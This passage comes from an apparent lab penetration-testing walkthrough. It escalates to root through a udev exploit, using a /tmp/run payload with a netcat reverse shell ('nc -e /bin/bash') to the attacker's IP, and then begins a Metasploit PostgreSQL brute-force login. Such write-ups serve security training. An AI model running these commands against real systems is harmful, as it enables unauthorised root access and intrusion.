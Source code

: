 And the relevant line is:

``` plain
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
df8cc200 15  2767   00000001 0        0        00000000 2
```

Check that this is the correct PID by looking at the udev service:

``` plain
ps aux | grep udev
root      2768  0.0  0.1   2092   620 ?        S<s  14:11   0:00 /sbin/udevd --daemon
```

It appears to be the right one (2768 - 1 = 2767)

Next, put some payload in /tmp/run, since that will be executed by the exploit. I will use netcat to connect to the atacker machine and give it a shell:

``` plain
echo '#!/bin/bash' > /tmp/run
echo 'nc -e /bin/bash 192.168.127.159 5555' >> /tmp/run
```

On the attacker machine, listen on port 5555:

``` plain
nc -v -l -p 5555
```

And on the victim machine, now that all is set up, I just make the exploit executable and run it:

``` plain
chmod +x 8572
./8572 2767
```

Now check our local netcat listener for the root shell:

``` plain
nc: connect to 192.168.127.159 5555 from 192.168.127.154 (192.168.127.154) 35539 [35539]
whoami
root
```

A bit on effort on that one, but all the more rewarding! Let's move on.

### Port 5432 postgresql

Since I already saw earlier that the mysql database wasn't password protected, I will try a bruteforce auxiliary module to see if I can get in this one.

**PostgreSQL Login Utility**

> This module attempts to authenticate against a PostgreSQL instance using username and password combinations indicated by the USER_FILE, PASS_FILE, and 
> USERPASS_FILE options.

``` plain
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > show options

Module options (auxiliary/scanner/postgres/postgres_login):

   Name              Current Setting                                                             Required  Description
   ----              ---------------                                                             --------  -----------
   BLANK_PASSWORDS   false                                                                       no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                           yes       How fast to bruteforce, from 0 to 5
   DATABASE          template1                                                                   yes       The database to authenticate against
```